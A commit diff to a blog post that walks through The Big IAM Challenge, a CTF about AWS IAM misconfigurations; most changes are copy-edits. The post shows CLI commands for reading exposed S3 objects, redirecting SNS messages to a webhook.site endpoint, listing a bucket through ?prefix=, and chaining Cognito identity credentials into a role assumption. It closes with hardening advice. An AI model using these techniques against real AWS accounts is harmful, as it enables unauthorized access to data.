

Before and after one commit to hatedabamboo/notes.hatedabamboo.me, an MkDocs documentation site: the page built from docs/posts/solving-the-big-iam-challenge.md, in a window 1280 px wide and 1400 px high, scrolled down 13407 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
New post: Solving The Big IAM Challenge

````diff
--- a/docs/posts/solving-the-big-iam-challenge.md
+++ b/docs/posts/solving-the-big-iam-challenge.md
@@ -12,15 +12,15 @@
   - "⬢⬢⬢ Advanced"
 title: "Solving The Big IAM Challenge"
 ---
-CTF (Capture The Flag) challenges are a fun and safe way to stretch a stale grain muscle and learn a trick or two about how robust security is not actually that robust. Today we're going to solve [The Big IAM Challenge](https://thebigiamchallenge.com/) and reflect on the lessons learned.
+CTF (Capture The Flag) challenges are a fun and safe way to stretch a stale brain muscle and learn a trick or two about how robust security is not actually that robust. Today we're going to solve [The Big IAM Challenge](https://thebigiamchallenge.com/)[^1] and reflect on the lessons learned.
 
 <!-- more -->
 
-![image](../assets/solving-the-big-iam-challenge.webp)
+![image](../assets/solving-the-big-iam-challenge.webp){ .off-glb }
 
 # Intro
 
-The Big IAM Challenge consists of 6 challenges, each based on a task and an IAM policy. We also have an access to a web CLI. With these tools we will have to find our way to a flag -- a string with the key that will allow us to progress to the next challenge and, eventually, solve them all.
+The Big IAM Challenge consists of six challenges, each based on a task and an IAM policy. We also have access to a web CLI. With these tools, we will have to find our way to a flag -- a string containing the key that will allow us to progress to the next challenge and, eventually, solve them all.
 
 ## Challenge 1: Buckets of Fun
 
@@ -62,14 +62,14 @@
 2023-06-08 19:18:24      81889 logo.png
 ```
 
-And there's our flag. If we try to download it, we will encounter an error that the filesystem is read-only. Which makes sense, but is an obstacle for us. However, we can overcome this issue by copying the file to stdin and printing it to the console:
+And there’s our flag. If we try to download it, we’ll encounter an error indicating that the filesystem is read-only -- which makes sense, but poses an obstacle for us. However, we can overcome this issue by copying the file to stdin and printing it to the console:
 
 ```shell
 > aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt - | cat
 {wiz:exposed-storage-risky-as-usual}
 ```
 
-With this flag challenge 1 is complete.
+With this flag, Challenge 1 is complete.
 
 ## Challenge 2: ~~Google~~ Analytics
 
@@ -159,7 +159,7 @@
 }
 ```
 
-The policy clearly wants us to subscribe to this SNS topic. I'd be happy to oblige! Since we have a wildcard (`*`) before `@tbic.wiz.io`, it means we can use any email!
+The policy clearly wants us to subscribe to this SNS topic. I’d be happy to oblige! Since we have a wildcard (`*`) before `@tbic.wiz.io`, it means we can use any email!
 
 ```shell
 > aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol email --notification-endpoint hello@tbic.wiz.io
@@ -170,9 +170,9 @@
 
 And now we wait.
 
-Wait, what? Wait for what? How do I confirm the subscription to the topic if I have no access to the email? Looks like I fell in the easiest trap!
+Wait, what? Wait for what? How do I confirm the subscription to the topic if I have no access to the email? Looks like I fell into the easiest trap!
 
-Okay, let's think. Since we have no access to email, we have to figure out a different way to receive a message from the topic. How can we do that? What are the options to receive messages from SNS? We're able to use the following protocols to communicate with SNS: http, https, email, email-json, sms, sqs, application, lambda and firehose. What if we set up an HTTP endpoint to receive messages? Webhooks, here we go! Luckily there are [services](https://webhook.site) online that allow one to test webhook requests. The trick here is to take the unique webhook URL and add the required endpoint string to the end of the URL: `https://webhook.site/3bddcb48-f58d-4284-a731-491c8784e0b1@tbic.wiz.io`. Still a valid URL? Let's find out!
+Okay, let’s think. Since we don’t have access to email, we need to figure out another way to receive a message from the topic. How can we do that? What are the options to receive messages from SNS? We can use the following protocols to communicate with SNS: HTTP, HTTPS, email, email-json, SMS, SQS, application, Lambda, and Firehose. What if we set up an HTTP endpoint to receive messages? Webhooks, here we go! Luckily, there are [services](https://webhook.site) online that allow us to test webhook requests. The trick here is to take the unique webhook URL and add the required endpoint string to the end of the URL: `https://webhook.site/3bddcb48-f58d-4284-a731-491c8784e0b1/@tbic.wiz.io`. Still a valid URL? Let’s find out!
 
 ```shell
 > aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://webhook.site/3bddcb48-f58d-4284-a731-491c8784e0b1/@tbic.wiz.io
@@ -181,7 +181,7 @@
 }
 ```
 
-In couple seconds we receive a message with the configuration URL. Copy and paste it into the browser to confirm the subscription. And after several more seconds in the following message on a webhooks site interface we see a new message with the flag itself!
+In a couple of seconds, we receive a message with the configuration URL. Copy and paste it into the browser to confirm the subscription. After several more seconds, we see a new message in the webhook site interface with the flag itself!
 
 ```json
 {
@@ -191,7 +191,7 @@
 }
 ```
 
-Third challenge is done, way to go!
+Third challenge is done -- way to go!
 
 ## Challenge 4: Admin only?
 
@@ -227,7 +227,7 @@
 }
 ```
 
-The provided IAM policy clearly states that list files in a bucket can only a user with the `admin` role. However, there's also a hole: anyone can download files from the bucket. This is a very bad practice and a huge security risk. From these statements we can conclude that the bucket has at least `files/` directoy, and we can view it by accessing HTTP endpoint of the bucket.
+The provided IAM policy clearly states that listing files in a bucket is only allowed for a user with the `admin` role. However, there's also a loophole: anyone can download files from the bucket. This is a very bad practice and a huge security risk. From these statements, we can conclude that the bucket has at least a `files/` directory, and we can view it by accessing the HTTP endpoint of the bucket.
 
 ```shell
 > curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"
@@ -305,7 +305,7 @@
 </script>
 ```
 
-Yep, there it is. A very helpfully placed Cognito Identity Pool ID. Let's use it to obtain our ID:
+Yep, there it is -- a very helpfully placed Cognito Identity Pool ID. Let’s use it to obtain our ID:
 
 ```shell
 > aws cognito-identity get-id --identity-pool-id us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b
@@ -314,7 +314,7 @@
 }
 ```
 
-And with this ID we are able to obtain credentials to assume!
+And with this ID, we are able to obtain credentials to assume!
 
 ```shell
 > aws cognito-identity get-credentials-for-identity --identity-id us-east-1:157d6171-eee2-cf0f-f29f-f684025c7f2c
@@ -400,7 +400,7 @@
 }
 ```
 
-And now with this nice JWT (JSON web token) we would be able to assume the role the challenge is telling us to assume.
+And now, with this nice JWT (JSON Web Token), we would be able to assume the role the challenge is telling us to assume.
 
 ```shell
 $ aws sts assume-role-with-web-identity --web-identity-token eyJraWQiOiJ1cy1lYXN0LTEtNyIsInR5cCI6IkpXUyIsImFsZyI6IlJTNTEyIn0.eyJzdWIiOiJ1cy1lYXN0LTE6MTU3ZDYxNzEtZWVhNi1jMGRhLTE0YmQtMTFjMTI2NzhjMWE4IiwiYXVkIjoidXMtZWFzdC0xOmI3M
@@ -450,29 +450,31 @@
 
 ## Post Mortem
 
-I had a great time solving these challenges (unless I didn't). They were fun, but at the same time complex and not straightforward.
+I had a great time solving these challenges (unless I didn’t). They were fun, but at the same time complex and deceptive..
 
-Truth to be told, some scenarios I was able to solve only with the help of guides from the internet. Only writing this article I noticed that image in the challenge #5 is actually a clue and not a random picture. Because of this oversight I had no idea where to look for the Identity Pool ID, so I had to google for a clue. Turns out it was right there all the time -- I just wasn't bright enough to connect the dots.
+Truth be told, some scenarios I was able to solve only with the help of guides from the internet. Only while writing this article did I realize that the image in challenge #5 was actually a clue and not a random picture. Because of this oversight, I had no idea where to look for the Identity Pool ID, so I had to google for a clue. Turns out it was right there all the time -- I just wasn’t bright enough to connect the dots.
 
-But fun aside, all of these challenges represent possible ways an attacker can extract helpful tips even from the most innocent pieces of information -- IAM policies in our case. For example, leaving `*` in `Principal` field allows any actor to subscribe to our queue. And I mean *any* -- unintended as well.
+But fun aside, all of these challenges represent possible ways an attacker can extract helpful tips, even from the most innocent pieces of information -- like IAM policies. For example, leaving `*` in the `Principal` field allows any actor to subscribe to our queue. And I mean *any* -- including unintended actors.
 
-Another interesting example of possible loopholes is limiting allowed action only to `s3:GetObject` for all the actors. It sounds quite safe, right? How can you get a file you don't know the name or the location of? Turns out, there are ways, thanks to the HTTP endpoints and `?prefix=` parameter.
+Another interesting example of possible loopholes is limiting allowed actions to only `s3:GetObject` for all actors. It sounds quite safe, right? How can you get a file you don’t know the name or location of? Turns out, there are ways, thanks to the HTTP endpoints and the `?prefix=` parameter.
 
-And my favourite example of how a malicious actor can follow the breadcrumbs is the leftover of a single ID -- and how it can lead to a full-scale breach of a secured perimeter and compromising the sensitive data.
+And my favorite example of how a malicious actor can follow the breadcrumbs is the leftover of a single ID -- and how it can lead to a full-scale breach of a secured perimeter, compromising sensitive data.
 
-Learning best practices how to keep your AWS infrastructure in theory is one thing. Actually seeing the ways even the tiniest misconfigurations can lead to a disaster -- totally another. And I love it.
+Learning best practices for keeping your AWS infrastructure secure in theory is one thing. Actually seeing how even the tiniest misconfigurations can lead to a disaster -- that’s totally another. And I love it.
 
-Finally, to address an elephant in the room, let's wrap this article with the most important statements regarding AWS IAM policies:
+Finally, to address the elephant in the room, let’s wrap this article with the most important statements regarding AWS IAM policies:
 
-- Always specify access to certain actions to specific resources and to dedicated principals: never leave wildcard permissions anywhere.
-- Separate open perimeter and closed perimeter of your infrastructure and restrics access only to assigned people.
-- Create alerts to notify when a user from a certain group is trying to perform an unusual action -- and tries that repeatedly.
-- Prioritize temprorary credentials assignment instead of perpetual access keys. Access keys should only be used by automated workflows (even this is a bad practice) and rotated regularly. Luckily, automation doesn't complain if you're asking it to change password every month.
+* Always specify access to certain actions for specific resources and dedicated principals: never leave wildcard permissions anywhere.
+* Separate the open perimeter and closed perimeter of your infrastructure, and restrict access only to assigned individuals.
+* Create alerts to notify you when a user from a certain group is trying to perform an unusual action -- and is trying it repeatedly.
+* Prioritize temporary credentials assignment instead of perpetual access keys. Access keys should only be used by automated workflows (though even this is a bad practice) and should be rotated regularly. Luckily, automation doesn’t complain if you’re asking it to change the password every month.
 
-Stay safe.
+Stay secure.
 
 ---
 
 <p style="text-align: center;">
 <a href="mailto:reply@hatedabamboo.me?subject=Reply%20to%3A%20Solving%20The%20Big%20IAM%20Challenge">Reply to this post ✉️</a>
 </p>
+
+[^1]: The biggest challenge turned out to be hand-drawing the title picture on a tiny iphone screen.
````
Also changed, not shown: other parts of docs/posts/solving-the-big-iam-challenge.md (+13 -13 lines), docs/assets/solving-the-big-iam-challenge.webp (added).
